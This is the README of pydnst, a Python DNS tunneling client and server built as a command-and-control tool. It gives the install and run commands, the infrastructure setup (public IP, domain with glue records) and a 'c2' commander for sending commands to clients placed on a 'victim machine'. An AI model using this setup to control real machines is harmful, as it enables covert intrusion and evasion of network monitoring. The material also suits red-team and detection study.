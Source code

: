 # pydnst
**DNS Tunneling client and server in Python**

<a name="installation"></a>
## INSTALLATION

    pip3 install pydnst
    
For convenience the client and server are in the same package, however the "rich" dependency is only used by the server.

<a name="features"></a>
## FEATURES

pydnst is a DNS tunneling implementation in Python, supporting Linux only (the client might require a few paths tweaks to run on Windows).  
The client sends keep-alive requests every 30 seconds. If the server has a command to send to a specific client, it sends it in a response to a keep-alive. Then the client sends another query containing the command response.  
The server can manage up to 250 clients, communication is encrypted with a unique Fernet key per client, generated on the fly and shared using RSA encryption.  
A simple rich interface on the server side enables to send commands to specific clients, and watch the responses in real-time.  
The client being implemented in Python is not stealth.  

<a name="setup"></a>
## SET UP

First acquire access to a machine with a public IP, this is where the pydnst server will run.  
Then acquire a DNS name, as short as possible, and configure its nameservers with glue records pointing to your public IP.  
You can then configure your pydnst.toml field DNST_SERVER_NAME, and run pydnst client on your victim machine.  


<a name="usage"></a>
## USAGE

###Install the pydnst package on client and server

    pip3 install pydnst
    python3 -m pydnst --help
    
###Generate certificates (recommended), to encrypt the shared key transfer between client and server
This creates server_private.pem (copy to server) and server_public.pem (copy to client).
After copying server_private.pem to server, don't forget to chmod 600.

    python3 -m pydnst create_certificates
    
###Generate configuration
This creates pydnst.toml : edit if needed and then copy to client and server.  
On client, edit the MAIN_INTERFACE to use the DNS server of this interface, or DNS_SERVER_ADDRESS to circumvent it.  
On server, edit the LISTENING_INTERFACE.  
On both, specify the DNST_SERVER_NAME (the DNS name purchased).  

    python3 -m pydnst config
    
###On server
In one terminal, run the server (pydnst.toml must be in the current directory) :   
Logs are under pydnst.log  

    python3 -m pydnst server run
    
In another terminal, run the commander (pydnst.toml must be in the current directory), which enables to send commands and watch responses in real-time.  

    python3 -m pydnst server c2
    
###On client
In one terminal, run the client (pydnst.toml must be in the current directory) :   
Logs are under pydnst.log  

    python3 -m pydnst client run


    

